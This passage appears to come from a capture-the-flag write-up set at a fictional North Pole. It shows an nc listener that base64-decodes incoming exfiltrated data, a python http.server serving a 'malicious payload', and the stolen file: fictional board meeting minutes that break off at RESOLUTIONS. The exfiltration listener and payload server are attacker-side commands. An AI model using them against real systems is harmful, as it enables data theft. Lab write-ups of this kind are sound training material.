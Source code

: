 ## Setup the exfiltration listener
We set `nc` to listen in port `8000` as we configured our payload and perform the decoding in another `tmux` pane.
```
nc -lvp 8000 |base64 -d |tee -a NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt
```

## Serving the malicious payload
We set `python` `http.server` module to listen on port `80` and serve the file.
```
python3 -m http.server 80

```

## Exfiltrated file
```
January 20, 2020

Meeting Location: All gathered in North Pole Municipal Building, 1 Santa Claus Ln, North Pole

Chairman Frost calls meeting to order at 7:30 PM North Pole Standard Time.

Roll call of Board members please:
Chairman Jack Frost - Present
Vice Chairman Mother Nature - Present

Superman - Present
Clarice - Present
Yukon Cornelius - HERE!
Ginger Breaddie - Present
King Moonracer - Present
Mrs. Donner - Present
Tanta Kringle - Present
Charlie In-the-Box - Here
Krampus - Growl
Dolly - Present
Snow Miser - Heya!
Alabaster Snowball - Hello
Queen of the Winter Spirits - Present

ALSO PRESENT:
                Kris Kringle
                Pepper Minstix
                Heat Miser
                Father Time

Chairman Frost made the required announcement concerning the Open Public Meetings Act: Adequate notice of this meeting has been made -- displayed on the bulletin board next to the Pole, listed on the North Pole community website, and published in the North Pole Times newspaper -- for people who are interested in this meeting.

Review minutes for December 2020 meeting. Motion to accept – Mrs. Donner. Second – Superman.  Minutes approved.

OLD BUSINESS: No Old Business.

RESOLUTIONS:
```